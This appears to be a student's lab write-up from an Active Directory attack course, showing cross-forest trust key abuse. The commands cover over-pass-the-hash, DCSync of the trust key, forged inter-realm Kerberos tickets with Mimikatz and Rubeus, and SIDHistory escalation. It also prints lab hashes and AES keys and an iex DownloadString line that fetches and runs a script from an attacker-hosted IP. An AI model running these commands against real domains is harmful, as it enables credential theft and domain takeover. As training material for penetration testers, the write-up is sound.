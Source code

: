 # Hands-on 25: Cross Forest Attacks - Trust Keys

- [Hands-on 25: Cross Forest Attacks - Trust Keys](#hands-on-25-cross-forest-attacks---trust-keys)
  - [Tasks](#tasks)
  - [Access eushare on envendor-dc](#access-eushare-on-envendor-dc)
  - [Access euvendor-net using PowerShell Remoting](#access-euvendor-net-using-powershell-remoting)

---

## Tasks

Using the DA access to eu.local: 
- Access `eushare` on `euvendor-dc`
- Access `euvendor-net` using PowerShell Remoting

<br/>

---

## Access eushare on envendor-dc

Recall in [Hands-on 23: Cross Domain Attacks - Constrained Delegation](l23-XForestConstrainedDelegation.md), we have the credential for `eu\administrator`:

Note:
eu\administrator
- SID: S-1-5-21-3657428294-2017276338-1274645009-500
- AES256: 4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d
- NTLM: fe422f818eb7e9c6de5862d94739c2e4

<br/>

First use an elevated shell to perform an over-pass-the-hash to become `eu\administrator`:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:eu.local /user:administrator /aes256:4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d /run:powershell.exe" "exit"
```

<br/>

Perform a DCSync in the spawned shell to obtain the forest trust key of `euvendor.local`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:eu\euvendor$ /domain:eu.local" "exit"
```

![picture 1](images/df4b181241dbbb4c16d44c64d3b42f94a5d6245ffb3482b6407316a5904e7eff.png)  

Note:
eu\euvendor$
- SID: `S-1-5-21-3657428294-2017276338-1274645009-1107`
- NTLM: `6ea61970f39a88a2f8709e9268bc5a4c`
- AES256: `b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8`

<br/>

To enumerate the trusts information of `eu.local`, we can use https://gallery.technet.microsoft.com/scriptcenter/Get-Active-Directory-2a9e15d2 on the over-pass-the-hash shell:

(Well this is stupid ... `eu-dc` has AD module off-the-land!)

```
winrs -r:eu-dc.eu.local cmd.exe

powershell -ep bypass

iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.64/Get-ADTrustInfo.ps1"))

Get-ADTrustsInfo -DomainName eu.local
```

![picture 2](images/32222ed6b3ec58b3a125300fa90ebec2ca43e89a73abc9b3e2d34821731b0190.png)  

Note:
euvendor.local
- SID: `S-1-5-21-4066061358-3942393892-617142613`

<br/>

In elevated shell, use the above information to forge an inter-forest TGT:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8 /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\sharedwitheu.kirbi"'
```

![picture 4](images/93bb5cf915e14b403cfd4a9ff34877a1727bff44f47e41f2e7189ac4f92b7b75.png)  


<br/>

Note that `euvendor-dc.euvendor.local` is not reachable by the student machine.

In so, transfer the `kirbi` file and `Rubeus.exe` to the `eu-dc`. 

On local machine:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

On `eu-dc`:

```
cd C:\Users\Public; wget http://192.168.100.64/sharedwitheu.kirbi -OutFile .\sharedwitheu.kirbi; wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

![picture 5](images/c156eaf6ea77da03a3c72555599d56cb10e073630c6f82db4ddeaa12d6dee255.png)  


<br/>

Then on `eu-dc` use **Rubeus.exe** to obtain a TGS and Pass-the-ticket:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 6](images/640a5f7eb454ef9011da41e6ff5f8880813c1c2325201359fe74d7349597b8c5.png)  

However, it turns out to be having bad integrity. This could be due to using `aes256` key.

<br/>

Instead, perform the process in `ec-dc`:

```
wget http://192.168.100.64/BetterSafetykatz.exe -OutFile .\BetterSafetykatz.exe
```

```
C:\Users\Public\BetterSafetykatz.exe "kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwitheu.kirbi" "exit"
```

![picture 7](images/6d0e4a90135a2cbf8e53e053cc22c7c21c8d3c49973639c10ab7cecc6deed706.png)  


```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 8](images/ad2848c3db74007c320e88805d16db3cb5b29dc814402abbff3daeac33788cf3.png)  

<br/>

Then try to access `\\euvendor-dc.euvendor.local\eushare`:

```
ls \\euvendor-dc.euvendor.local\eushare

type \\euvendor-dc.euvendor.local\eushare\shared.txt
```

![picture 9](images/cc2844b18bfc094e7197eba98690ba3f0c5557bf345c9826426ead111380fe1a.png)  

<br/>

---

## Access euvendor-net using PowerShell Remoting

Enumerate trusts on `eu-dc`:

```
Get-ADTrust -Filter *
```

![picture 10](images/168fbe5eadabba5b48731eb1a6f45b85c4b12769b3ce56a69ecce2e9d9b38576.png)  

- `SIDFilteringForestAware` = `True` means `SIDHistory` is enabled across the forest trust.

<br/>

Only `RID>1000` SIDs are allowed across the trust boundary - Enterprise Admins for example.

```
Get-ADGroup -Server euvendor.local -Filter * | Select Name, SID
```

![picture 11](images/9f4d32106d5bd0fcc9da8be4f12b6a533f0135302c9b2311e395205193f5522e.png)  

<br/>

We can make use of `EUAdmins` (SID: `S-1-5-21-4066061358-3942393892-617142613-1103`).

Creata a TGT with `SIDHistory` of the group `EUAdmins`:

```
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendoreuadmin.kirbi" "exit"
```

![picture 12](images/3148dc4f5df302479422c2a0e5bb25d4cad26e4811fb4843660b3efd53357d5c.png)  

<br/>

Then use `Rubeus.exe` to ptt:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendoreuadmin.kirbi /service:HTTP/euvendor-net.euvendor.local,HOST/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 13](images/55e82334c5dda12b0b4d0fdb58629187e9e9a909f42602c155f1a41a348c9368.png)  

<br/>

Enumerate computers in `euvendor.local`:

```
Get-ADComputer -Filter * -Server euvendor.local | Select name
```

![picture 14](images/ecc4d0f39c833c856518608275d77d30127cf6c9d2e016fa37210f7210ac1f22.png)  

```
Invoke-Command -Scriptblock {hostname; whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

![picture 15](images/032f69407eb3bf2af05a62e69ad4acba6338ac4998b84fd8596302000dd240f2.png)  


<br/>


Try to get a powershell session on `euvendor-net`:

```
winrs -r:euvendor-net.euvendor.local powershell.exe
```

![picture 16](images/ff4ae45ff66cf0a67be61f83b9aaa2977d446fe086933e9860d76784bb1cd7d7.png)  

---